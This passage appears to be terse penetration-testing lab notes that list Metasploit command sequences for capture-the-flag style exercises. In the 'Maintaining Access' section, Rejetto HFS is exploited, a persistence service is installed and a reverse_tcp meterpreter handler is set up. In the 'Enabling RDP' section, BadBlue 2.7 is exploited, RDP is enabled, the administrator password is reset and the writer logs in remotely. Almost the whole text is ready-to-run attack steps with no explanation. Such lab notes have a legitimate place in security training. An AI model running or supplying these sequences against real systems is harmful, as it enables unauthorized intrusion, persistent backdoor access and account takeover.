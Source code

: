 	cd /
	dir
	type flag.txt


## Maintaining Access (Persistence Service)

	nmap ip
	nmap -sV -p80 ip
	searchsploit hfs
	msfconsole
	use exploit/windows/http/rejetto_hfs_exec
	set RHOSTS ip
	set LHOST ip
	exploit
	getuid
	background
	use exploit/windows/local/persistence_service
	set SESSION 1
	exploit
	start another msfconsole and run multi handler to regain access
	msfconsole 
	use exploit/multi/handler
	set LHOST ip
	set PAYLOAD windows/meterpreter/reverse_tcp
	set LPORT 4444
	exploit
	session -i 1 (in the persistence service meterpreter)
	getuid (in the multi handler meterpreter)
	reboot




## Enabling RDP (remote desktop protocol)

	nmap ip
	nmap -sV -p 80 ip
	searchsploit badblue 2.7
	msfconsole
	use exploit/windows/http/badblue_passthru
	set RHOSTS ip
	exploit
	CTRL + Z
	use post/windows/manage/enable_rdp
	set SESSION 1
	exploit
	sessions -i 1
	shell
	net user administrator hacker_123321
	xfreerdp /u:administrator /p:hacker_123321 /v:ip
	(Y)
	locate  the flag
